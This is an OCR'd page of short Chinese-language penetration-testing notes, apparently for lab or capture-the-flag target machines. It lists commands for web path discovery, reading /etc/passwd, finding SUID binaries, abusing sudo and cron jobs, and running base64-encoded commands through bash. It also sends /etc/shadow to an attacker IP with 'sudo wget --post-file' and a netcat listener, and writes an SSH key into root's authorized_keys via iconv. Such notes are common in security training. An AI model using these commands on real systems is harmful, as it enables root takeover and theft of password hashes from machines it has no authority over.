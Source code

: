 `/var/www/html/backup` `/var/www/html/admin`

`cat /etc/passwd | grep /bin/bash`



漏洞搜索

```
Zedna eBook download acunetix

https://www.exploit-db.com/exploits/39575
```



提权

```
sudo -l 可执行命令

!/bin/su root
sudo -i 换root


find / -perm -u=s -type f 2>/dev/null


su 知道当前用户密码 直接越权
find 被禁用  在/etc/bin目录下人肉搜索 一般红底黄字 root身份执行


env 可疑环境变量

ps -ef

netstat  -ano 查看网络和端口

date 看执行日期 计划任务 提权
计划任务拷贝bash 赋予s权限 达到root
pspy64



python 运行py文件 提权

py文件中写入echo '命令' | base64 -d | bash #bash执行 为了防止报错 命令base64编码


wget 提权
sudo wget --post-file=/etc/shadow 10.10.5.150:4444 上传文件到攻击机
nc -nlvvp 4444 >shadow 保存文件

iconv 提权 把ssh的公钥传到靶机(tech_support vuln)
echo 'ssh.pub' | sudo ./iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys
```
